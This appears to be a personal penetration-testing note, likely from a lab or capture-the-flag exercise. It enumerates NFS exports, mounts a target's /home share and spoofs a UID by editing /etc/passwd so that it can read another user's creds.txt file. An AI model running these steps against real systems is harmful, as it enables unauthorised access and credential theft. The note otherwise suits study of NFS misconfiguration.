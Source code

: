 ```yaml
---
category: Uncategorized
tags: []
---
```

```bash - kali
showmount -e $TARGET
```

![[Pasted image 20221115122217.png]]
   
Notice the /home directory

```bash - kali
mkdir ./home
```

```bash - kali
sudo mount -t nfs -o nolock,nfsvers=3 $TARGET:/home ./home/
```

```bash - kali
cd ./home  && ls
```

Digging through, we see a creds file:

![[Pasted image 20221109113447.png | 600]]

Now we create a new user on kali, change it's user id value, then open the file:

```bash - kali
sudo adduser pwn
```

```bash - kali
cat /etc/passwd | grep pwn
```
   
now to change the 1002 to 1014

```bash - kali
sudo sed -i -e 's/1002/1014/g' /etc/passwd
```

```bash - kali
cat /etc/passwd | grep pwn
```
   
```bash - kali
su pwn
```

```bash - kali
cat creds.txt
```

---

```bash - kali
mount -t nfs $TARGET:/Mount/ /MyFolder -no lock
```

![[Pasted image 20220112111950.png]]

![[Pasted image 20220112112052.png]]
